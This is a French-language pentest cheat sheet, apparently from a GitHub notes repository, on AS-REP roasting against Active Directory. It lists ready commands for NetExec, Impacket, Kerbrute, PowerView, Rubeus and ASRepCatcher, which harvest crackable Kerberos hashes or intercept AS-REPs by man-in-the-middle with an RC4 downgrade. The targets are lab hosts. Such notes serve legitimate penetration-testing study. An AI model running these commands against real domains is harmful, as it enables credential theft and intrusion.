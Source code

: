 

# **AS-REP ROASTING**

Récupérer les hash des utilisateurs dont la pre-auth Kerberos est désactivée. Le hash peut ensuite être Brute forcé.

## LINUX
### *NETEXEC*

```bash
netexec ldap 10.10.11.31 -u users -p '' --dns-server 10.10.11.31 --kdcHost dc01.infiltrator.htb --asreproast asrep.txt
```

### *IMPACKET*

```bash
impacket-GetNPUsers -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

### *KERBRUTE*

```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```


## WINDOWS
### PowerView

Identifier les comptes n'ayant pas la préauth kerberos requise

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

### Rubeus

ASREP Roasting sur le compte identifié précédemment

```powershell
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```


---

# **AS-REP ROASTING MiTM**

> [!TIP]
> Ne requiert pas la désactivation de la pré-auth Kerberos

Intercepter les AS-REPs en Man-In-The-Middle.

### *ASREPCATCHER*

https://github.com/Yaxxine7/ASRepCatcher

#### Relay vers le DC et downgrade en RC4

```bash
ASRepCatcher relay -dc $DC_IP
```

#### Ecoute passive sans altération des paquets

```bash
ASRepCatcher listen
```

